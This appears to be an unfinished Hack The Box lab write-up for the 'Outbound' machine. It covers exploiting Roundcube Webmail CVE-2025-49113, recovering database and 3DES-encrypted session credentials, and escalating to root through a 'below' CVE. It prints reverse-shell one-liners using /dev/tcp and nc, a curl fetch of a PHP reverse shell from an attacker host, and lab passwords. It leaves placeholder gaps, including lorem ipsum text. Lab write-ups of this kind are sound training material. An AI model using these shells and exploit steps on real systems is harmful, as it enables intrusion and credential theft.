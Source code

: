 Tags: #Linux/Ubuntu #Easy #Nginx #Insecure-PHP-Object-Deserialization 
# **Nmap Results**

```text
Nmap scan report for 10.10.11.77
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```
<br>
<br>

# **Service Enumeration**
Add domain name to /etc/hosts file

First look at the site:

![[Pasted image 20250713215909.png]]

We are given credentials in the machine description, which are valid for this form. 

Dashboard site:

![[Pasted image 20250713220038.png]]

The "About" button on the bottom left reveals service and version information. This site is running **Roundcube Webmail 1.6.10** which has a CVE ID of **CVE-2025-49113**. 

> [!info] Explanation of the Vulnerability
> Lorem Ipsum
>
> More information can be found on [this](https://www.offsec.com/blog/cve-2025-49113/) blog post

There's a POC script on [GitHub](https://github.com/hakaioffsec/CVE-2025-49113-exploit) which we will use. 
<br>
<br>
# **Exploitation**
## **Initial Access**
Multiple reverse shell one-liners such as `bash -i >& /dev/tcp/<ip>/<port> 0>&1`, `nc <ip> <port> -e sh`, and a python variant did not work, however I discovered that `curl` is available. We can use this to our advantage by having the machine fetch a PHP reverse shell script and then executing it immediately (`curl http://<attacker-ip>:<port>/exploit.php)

After uploading the malicious PHP object with our command, we set up a Python server and then our listener:

![[Pasted image 20250722144550.png]]

We're now logged in as www-data.

It's confirmed that we're in a docker container by the output of `ps -p 1 -o comm=`, which yields **init.sh**. If we weren't in one, we'd see **systemd**.

`ps aux` reveals an interesting process: 

```bash
mysql        143  0.0  2.8 1408716 114380 ?      Sl   15:09   0:02 /usr/sbin/mariadbd --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=mysql --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/run/mysqld/mysqld.sock
```

There's an instance of MariaDB/MySQL running in the background. 

Creds are found in `/var/www/html/roundcube/config/config.inc.php`:

```php
// Database connection string (DSN) for read+write operations
// Format (compatible with PEAR MDB2): db_provider://user:password@host/database
// Currently supported db_providers: mysql, pgsql, sqlite, mssql, sqlsrv, oracle
// For examples see http://pear.php.net/manual/en/package.database.mdb2.intro-dsn.php
// NOTE: for SQLite use absolute path (Linux): 'sqlite:////full/path/to/sqlite.db?mode=0646'
//       or (Windows): 'sqlite:///C:/full/path/to/sqlite.db'
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';

```

After logging in, the process appears to hang, but we are still able to input commands. This is because of our extremely unstable shell. We have to type enter and ';' a few times and then our command for it to work.

Within the **"roundcube"** database, there's a table **"users"**, with users and passwords:

![[Pasted image 20250722162817.png]]

The hashes don't seem to match the format for any hash type, which is very odd. 

**NOTE**: I've just discovered that there's a Metasploit module for the earlier vulnerability, which I will use for a more stable shell, plus `script /dev/null -c bash`.

There's a table called **session**, and inside we find some base64 data. After decoding it, we find Jacob's PHP encoded session:

![[Pasted image 20250723164422.png]]

If you look closely, we see his password `L7Rv00A8TuwJAr67kITxxcSgnIk25Am/`, but it doesn't appear to work, and it's not encoded by any means. The online hash type identifier at hashes.com was unable to detect the hash type. We'll have to keep looking around to find more clues

In the same file we found the SQL creds, there's also a "des-key":

```php
// This key is used to encrypt the users imap password which is stored
// in the session record. For the default cipher method it must be
// exactly 24 characters long.
// YOUR KEY MUST BE DIFFERENT THAN THE SAMPLE VALUE FOR SECURITY REASONS
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

So Jacob's password is encrypted with DES, specifically Triple DES (3DES) given that the key length is 24 bytes, and the normal key length for a single DES key is 8 bytes. 

EXPLAIN HOW TO DECRYPT PASSWORD HERE. THE RESULT WAS `595mO8DmwGeD`

Logging in with SSH with this password was unsuccessful, but we were able to use `su` to log in locally. It also worked in the roundcube webmail portal, and we can see the messages in his inbox, of which he has 2. The one that interests us is this one:

![[Pasted image 20250724134554.png]]

This password seems to have worked in SSH, and we are now the real Jacob instead of the one we `su`'d into in the docker container.
<br>
<br>
# **Privilege Escalation**  
Output of `sudo -l`:

![[Pasted image 20250724135439.png]]

This tells us we can run `below` as root, except if certain arguments are present, like the `--config` flag, or debug, etc.

**Below** is a system profiler/activity monitor program for linux. When we run it, the version is displayed and tells us it's **0.8.0**. There happens to be a CVE for that, linked [here](https://github.com/BridgerAlderson/CVE-2025-27591-PoC)

After execution, we are root.
<br>
<br>
# Skills Learned
* The usual way to spawn a more stable shell is using python with `python3 -c 'import pty;pty.spawn("/bin/bash")'`. However, in situations where python is unavailable, another solid method is using the `script` command like so: `script /dev/null -c bash`. This command is designed to create stable PTYs, but it also logs everything to a file, which we bypass by just passing /dev/null
<br>
<br>
# Proof of Pwn
https://labs.hackthebox.com/achievement/machine/391579/672